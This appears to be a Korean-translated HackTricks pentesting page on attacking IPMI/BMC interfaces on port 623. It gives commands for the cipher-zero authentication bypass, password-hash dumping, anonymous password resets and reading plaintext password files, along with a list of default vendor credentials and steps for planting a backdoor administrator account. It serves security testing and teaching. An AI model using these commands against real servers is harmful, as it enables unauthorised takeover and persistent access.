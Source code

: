 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### **IPMI 개요**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**는 운영 체제나 전원 상태와 관계없이 컴퓨터 시스템의 원격 관리 및 모니터링을 위한 표준화된 접근 방식을 제공합니다. 이 기술은 시스템 관리자가 시스템이 꺼져 있거나 응답하지 않을 때에도 원격으로 시스템을 관리할 수 있게 해주며, 특히 유용한 경우는 다음과 같습니다:

- OS 부팅 전 구성
- 전원 관리
- 시스템 장애 복구

IPMI는 온도, 전압, 팬 속도 및 전원 공급 장치를 모니터링할 수 있으며, 인벤토리 정보 제공, 하드웨어 로그 검토 및 SNMP를 통한 경고 전송 기능도 제공합니다. 작동에 필수적인 요소는 전원 공급 장치와 LAN 연결입니다.

1998년 Intel에 의해 도입된 이후, IPMI는 여러 공급업체에 의해 지원되어 원격 관리 기능을 향상시켰으며, 특히 2.0 버전의 LAN을 통한 직렬 지원이 추가되었습니다. 주요 구성 요소는 다음과 같습니다:

- **Baseboard Management Controller (BMC):** IPMI 작업을 위한 주요 마이크로 컨트롤러.
- **통신 버스 및 인터페이스:** ICMB, IPMB 및 다양한 로컬 및 네트워크 연결을 위한 인터페이스를 포함한 내부 및 외부 통신을 위한 것.
- **IPMI 메모리:** 로그 및 데이터를 저장하기 위한 것.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**기본 포트**: 623/UDP/TCP (보통 UDP에서 실행되지만 TCP에서도 실행될 수 있습니다)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
You can **identify** the **version** using:  
당신은 다음을 사용하여 **버전**을 **식별**할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI 취약점

IPMI 2.0 영역에서 Dan Farmer에 의해 중요한 보안 결함이 발견되었으며, **cipher type 0**을 통해 취약점이 노출되었습니다. 이 취약점은 [Dan Farmer의 연구](http://fish2.com/ipmi/cipherzero.html)에서 자세히 문서화되어 있으며, 유효한 사용자가 목표로 삼을 경우 제공된 비밀번호로 무단 접근을 가능하게 합니다. 이 약점은 HP, Dell, Supermicro와 같은 제조업체의 다양한 BMC에서 발견되어 모든 IPMI 2.0 구현에서 광범위한 문제를 시사합니다.

### **Cipher 0을 통한 IPMI 인증 우회**

이 결함을 탐지하기 위해 다음의 Metasploit 보조 스캐너를 사용할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
이 결함의 악용은 아래에示된 `ipmitool`을 사용하여 가능하며, 사용자 비밀번호의 나열 및 수정을 허용합니다:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 인증 원격 비밀번호 해시 검색**

이 취약점은 기존 사용자 이름에 대한 솔트가 추가된 해시 비밀번호(MD5 및 SHA1)를 검색할 수 있게 해줍니다. 이 취약점을 테스트하기 위해 Metasploit은 모듈을 제공합니다:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 익명 인증**

많은 BMC의 기본 구성은 null 사용자 이름 및 비밀번호 문자열로 특징지어지는 "익명" 액세스를 허용합니다. 이 구성은 `ipmitool`을 사용하여 명명된 사용자 계정의 비밀번호를 재설정하는 데 악용될 수 있습니다:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 평문 비밀번호**

IPMI 2.0의 중요한 설계 선택은 인증 목적으로 BMC 내에 평문 비밀번호를 저장해야 함을 요구합니다. Supermicro가 이러한 비밀번호를 `/nv/PSBlock` 또는 `/nv/PSStore`와 같은 위치에 저장하는 것은 심각한 보안 문제를 야기합니다:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP 취약점**

Supermicro의 IPMI 펌웨어에 UPnP SSDP 리스너를 포함하는 것은 특히 UDP 포트 1900에서 심각한 보안 위험을 초래합니다. [Rapid7의 공개](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)에서 자세히 설명된 Intel SDK for UPnP Devices 버전 1.3.1의 취약점은 BMC에 대한 루트 접근을 허용합니다:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP는 제조 중에** **Integrated Lights Out (iLO)** **제품의 기본 비밀번호를 무작위로 설정합니다.** 이 관행은 **정적 기본 자격 증명**을 사용하는 다른 제조업체와 대조적입니다. 다양한 제품에 대한 기본 사용자 이름과 비밀번호 요약은 다음과 같습니다:

- **HP Integrated Lights Out (iLO)**는 기본 비밀번호로 **공장에서 무작위로 생성된 8자 문자열**을 사용하여 더 높은 보안 수준을 보여줍니다.
- **Dell의 iDRAC, IBM의 IMM**, 및 **Fujitsu의 Integrated Remote Management Controller**와 같은 제품은 각각 "calvin", "PASSW0RD" (0 포함), "admin"과 같은 쉽게 추측할 수 있는 비밀번호를 사용합니다.
- 유사하게, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, 및 **ASUS iKVM BMC**도 각각 "ADMIN", "changeme", "admin"과 같은 간단한 기본 자격 증명을 사용합니다.


## Accessing the Host via BMC

Baseboard Management Controller (BMC)에 대한 관리 액세스는 호스트의 운영 체제에 접근할 수 있는 다양한 경로를 엽니다. 간단한 접근 방식은 BMC의 키보드, 비디오, 마우스 (KVM) 기능을 악용하는 것입니다. 이는 GRUB를 통해 루트 셸로 호스트를 재부팅하거나 가상 CD-ROM에서 복구 디스크로 부팅하여 수행할 수 있습니다. 이러한 방법은 호스트의 디스크를 직접 조작할 수 있게 하며, 백도어 삽입, 데이터 추출 또는 보안 평가를 위한 필요한 작업을 포함합니다. 그러나 이는 호스트를 재부팅해야 하므로 상당한 단점이 있습니다. 재부팅 없이 실행 중인 호스트에 접근하는 것은 더 복잡하며 호스트의 구성에 따라 다릅니다. 호스트의 물리적 또는 직렬 콘솔이 로그인된 상태라면 BMC의 KVM 또는 LAN을 통한 직렬 기능을 사용하여 쉽게 장악할 수 있습니다. i2c 버스 및 Super I/O 칩과 같은 공유 하드웨어 리소스의 악용을 탐색하는 것은 추가 조사가 필요한 영역입니다.

## Introducing Backdoors into BMC from the Host

BMC가 장착된 호스트를 손상시키면, **로컬 BMC 인터페이스를 활용하여 백도어 사용자 계정을 삽입할 수 있습니다.** 이는 서버에 지속적인 존재를 생성합니다. 이 공격은 손상된 호스트에 **`ipmitool`**이 존재하고 BMC 드라이버 지원이 활성화되어 있어야 합니다. 다음 명령은 인증 없이 호스트의 로컬 인터페이스를 사용하여 BMC에 새 사용자 계정을 주입하는 방법을 보여줍니다. 이 기술은 Linux, Windows, BSD, 심지어 DOS를 포함한 다양한 운영 체제에 적용 가능합니다.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
